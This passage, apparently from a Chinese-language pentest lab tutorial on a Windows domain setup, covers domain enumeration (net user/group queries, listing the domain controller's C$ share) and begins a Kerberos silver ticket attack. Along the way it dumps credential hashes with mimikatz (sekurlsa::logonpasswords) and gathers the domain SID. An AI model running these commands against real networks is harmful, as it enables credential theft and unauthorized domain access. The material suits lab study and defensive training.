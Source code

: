 ![image-20241102175339168](https://image.201068.xyz/assets/9.域环境搭建/image-20241102175339168.png)

![image-20241102175426190](https://image.201068.xyz/assets/9.域环境搭建/image-20241102175426190.png)

##### 查看域内C盘文件

dc通过dir命令，查看域内win7-x64的C盘文件。

```bash
dir \\dc\c$
```



```bash
net user  /domain 获取域用户列表
net group  "domain admins"  /domain 获取管理员列表
net group "domain controllers" /domain 查看域控制器 
net group "domain computers" /domain 查看域机器
```

### 6.制作白银票据

域控服务器**公开域控主机hash值**，客户端**制作白银票据**实现内网访问



> 条件：获取到目标服务机器的hash

![image-20241102175817726](https://image.201068.xyz/assets/9.域环境搭建/image-20241102175817726.png)

##### 获取域SID

```bash
whoami /user
```

![image-20241102175851880](https://image.201068.xyz/assets/9.域环境搭建/image-20241102175851880.png)

> S-1-5-21-1449925610-700517293-2636695646-500

- mimikatz查看票据：kerberos:list
- mimikatz清空票据：kerberos:purge

##### 获取hash值

```bash
privilege::debug
sekurlsa::logonpasswords
```

![image-20241102185800176](https://image.201068.xyz/assets/9.域环境搭建/image-20241102185800176.png)

> S-1-5-21-1449925610-700517293-2636695646-500

##### 找到机器账户DC01的hash值

![image-20241102185858941](https://image.201068.xyz/assets/9.域环境搭建/image-20241102185858941.png)
